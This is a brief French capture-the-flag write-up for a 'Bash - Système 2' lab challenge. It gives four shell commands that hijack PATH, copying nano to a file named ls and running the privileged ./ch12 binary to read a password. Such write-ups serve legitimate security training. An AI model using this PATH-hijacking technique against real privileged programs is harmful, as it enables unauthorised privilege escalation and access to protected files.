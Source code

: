 # Challenge Bash - Système 2

## Todo :

Exécuter le code compilé pour afficher le mot de passe 


### Note :

  - alias et export ne fonctionnent pas dans ce cas
  - commande utilise des arguments 

## Exploit :

mkdir -pv /tmp/exploit
cp -avr $(which nano) /tmp/exploit/ls
export PATH=/tmp/exploit
./ch12
